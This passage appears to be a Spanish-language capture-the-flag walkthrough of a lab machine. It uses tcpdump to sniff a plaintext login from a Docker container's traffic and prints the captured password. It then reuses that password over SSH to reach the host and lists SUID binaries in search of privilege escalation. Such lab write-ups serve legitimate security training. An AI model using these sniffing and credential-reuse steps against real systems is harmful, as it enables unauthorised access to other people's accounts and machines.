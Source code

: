 Si revisamos esta ruta vemos lo siguiente:
```bash
http://192.168.100.31:5000/sniff.txt

# contenido:
Puede que haya ciertas herramientas que te permitan esnifar el trafico.
```

Tendriamos que usar herraminetas como **tshark** o **tcpdump** para **sniffear** el trafico de red en la maquina victima:
Como la maquina victima tiene installado **tcpdump** tendremos que hacerlo con esta herramienta, Asi que iniciamos la herramienta para ponernos en modo escucha
Si revisamos la interfaz de red vemos que es un contenedor **docker**
```bash
root@05cc10128c04:/home/astro# hostname -I
172.17.0.2
```

Ahora para atrapar todo el trafico del contenedor realizamos el siguiente comando
```bash
sudo tcpdump -i eth0 -A -s0 -w gitea_capture.pcap host 172.17.0.2 and \(port 80 or port 3000 or port 443\)
```

Y para leer la captura ejecutamos el siguiente comando:
```bash
tcpdump -r gitea_capture.pcap -n -A
```

En la captura vemos lo siguiente
```bash
Host: 172.17.0.2
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 74
Content-Type: application/x-www-form-urlencoded

username=astro&password=wj2UI4f207RC58nNx31gBUiBYSPEK27JxvRNBYbP6UWZpqeoWS
```

Tenemos una potencial password que usaremos para conectarnos por **ssh** el host objetivo, Logramos salir del contenedor
```bash
ssh astro@192.168.100.31 # wj2UI4f207RC58nNx31gBUiBYSPEK27JxvRNBYbP6UWZpqeoWS
```
###### Usuario `[ Astro ]`:
```bash
ls -la
#Flag de usuario
-rw-r--r-- 1 root  root    33 jul 18 21:49 user.txt
```

Ahora buscando binario **SUID**, Tenemos lo sigueinte:
```bash
find / -perm -4000 -ls 2>/dev/null
   262736     16 -rwsr-xr-x   1 root     root        16296 jul 19 02:00 /usr/local/bin/secmonitor
```
